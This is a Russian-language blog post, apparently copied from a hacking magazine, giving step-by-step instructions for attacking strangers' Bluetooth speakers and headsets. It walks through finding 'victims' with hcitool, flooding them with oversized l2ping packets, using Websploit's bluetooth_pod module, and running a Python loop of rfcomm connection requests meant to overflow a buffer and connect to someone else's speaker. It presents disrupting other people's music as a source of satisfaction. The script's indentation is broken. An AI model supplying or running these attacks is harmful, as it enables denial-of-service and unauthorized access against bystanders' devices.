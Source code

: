 ```yaml
---
title: Взлом Bluetooth
layout: post
categories: articles
tags:
  - ru
  - edr
  - common
published: true
ru: true
---
```


<h1>Внимание, информация нагло спизжена у Ghoustchat с ][akepa</h1>

# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение

Если современные Wi-Fi-роутеры способны фильтровать нежелательные пакеты, то большинство адаптеров Bluetooth, мягко говоря, туповаты. Им по большому счету безразлично, какой пакет и какого объема, а уж тем более сколько этих пакетов ты пришлешь. Поэтому нам не составляет абсолютно никакого труда увеличить в Linux информационный объем пакета ping до огромного значения, а потом отослать этих пакетов на девайс с Bluetooth, скажем, 1000 штук.

# Теперь по порядку.
Для начала нам нужно найти подходящие устройства в зоне досягаемости. Для этого используем команду

$ hcitool scan
В результате этой нехитрой манипуляции ты получишь список доступных устройств с Bluetooth с их MAC-адреса. Если твоя система не видит адаптер Bluetooth, то я рекомендую поставить один из менеджеров Bluetooth для Linux. В Kali лично мне подошел gnome-bluetooth, который можно установить следующей командой:

$ apt-get install gnome-bluetooth
Еще можно воспользоваться утилитой blueman:

$ apt-get install blueman
Получив список потенциальных жертв, можно расправиться с их синезубыми девайсами несколькими способами. Рассмотрим каждый по отдельности.

 
# Первый способ: l2ping
Воспользуемся такой командой:

$ l2ping -i hci0 -s <packet value> -f <MAC_address>
Она сгенерирует пакеты указанного тобой в параметре

\<packet value\>
объема и будет отсылать эти пакеты на MAC-адрес, записанный в качестве параметра
'<'MAC_address'>'
. В конце концов ты увидишь такую картину: в терминале время отклика будет постепенно увеличиваться, а на атакуемом устройстве, скорее всего, просто отключится Bluetooth. Через какое-то время он все равно включится, но музыка прервется, и некоторое удовлетворение будет получено.

INFO
Такая схема очень хорошо работает, когда атакуемое устройство (к примеру, телефон) подключено к гарнитуре или колонке по Bluetooth. После атаки эти два устройства не смогут соединиться друг с другом.

 
# Второй способ: Websploit
Существует более элегантный и удобный способ заглушить колонку, из которой доносятся жизнерадостные звуки рэпа. Запускаем утилиту Websploit:

$ websploit
Набираем в консоли команду

$ show modules
Она продемонстрирует нам все модули, которые работают с этой утилитой. Там есть множество компонентов, работающих с Wi-Fi, но нас интересует конкретно модуль bluetooth/bluetooth_pod:

$ use bluetooth/bluetooth_pod
Теперь нужно настроить все параметры и указать сведения об атакуемом устройстве:

$ show options
$ set bdaddr <MAC_address>
Чтобы точно и наверняка угробить Bluetooth, мы изменим размер отсылаемого пакета:

$ set size 999
Все подготовительные действия завершены, можем запускать нашу «машину для убийств»:

$ run
На выходе мы увидим абсолютно похожую картину: пинги становятся дольше, а музыка прерывается. Красота!

Эти два способа будут работать практически с любыми блютусными колонками, гарнитурами и прочими похожими устройствами. Просто потому, что производители не выпускают для них новые прошивки, способные фильтровать входящие пакеты. Так что, если у тебя есть ноутбук с «Линуксом» на борту, ты точно можешь назвать себя грозой портативных колонок.

Если колонка справляется с атакой, можно попробовать отправить пакеты на сам телефон, к которому она подключена. Лично я тестировал этот метод на довольно мощной портативной колонке (JBL Xtreme), и она более-менее справлялась с нагрузкой. Но дешевые китайские поделки такая атака вырубает на раз.

 
# Про готовые джаммеры
В интернете продаются любопытные товары, среди которых можно найти и глушилки частот. Стоят они обычно приличных денег и предоставляют разные возможности. Одни могут валить практически все сигналы мобильной сети, Wi-Fi и Bluetooth разом, а другие не справятся и с H+.

Если ты считаешь, что тебе действительно необходим подобный товар, то перед его приобретением настоятельно рекомендую ознакомиться с действующим законодательством. В России покупать и продавать глушилки не запрещено, однако если ты решишь воспользоваться ей, то необходима регистрация устройства в ГКРЧ. Если тебя поймают на использовании незарегистрированного девайса, то, скорее всего, оштрафуют по статье 13.4 КоАП РФ. Штраф для физических лиц на сегодняшний день составляет 500 рублей, для юридических — до 10 тысяч.

 
# Подключаемся к чужому девайсу
Как мы уже знаем, примитивные колонки и гарнитуры почти никогда не фильтруют пакеты, которые мы им отправляем. Но что будет, если отослать такому девайсу не просто пакет с данными для проверки связи (ping), а пакет с запросом на подключение к устройству? И не один.

Не все производители подобных гарнитур позаботились о защите от переполнения буфера. Если все пакеты становятся в очередь, то что произойдет, когда складировать запросы уже будет некуда? Колонка попытается выполнить команду и при этом очистить буфер.

Поэтому мы используем стандартный протокол обмена данными по Вluetooth — rfcomm. Но так как сама утилита, контролирующая протокол, не позволит нам отправить тысячу таких запросов, мы напишем небольшой скрипт на Python, который автоматизирует процесс.

~~~
#!/usr/bin/env python
import subprocess

cmd=['rfcomm', 'connect', '<MAC_address>', '1']

for i in range(0, 1001):
subprocess.call(cmd)
print('Connecting...')
~~~

Перед запуском скрипта нам нужно узнать MAC-адрес устройства. Для этого используем уже знакомую команду

hcitool scan
, а полученный адрес вставляем в скрипт вместо
<MAC_address>
. Теперь сохраняем скрипт и запускаем его:
$ python <FileName>
Сработает скрипт или нет, зависит от модели атакуемого девайса, вернее, от скорости заполнения буфера. Если буфер успеет забиться до его очистки, то команда будет выполнена, и тогда мы подключимся к колонке одновременно с основным пользователем. Если же буфер очистится, то ничего не получится и придется перезапустить скрипт.
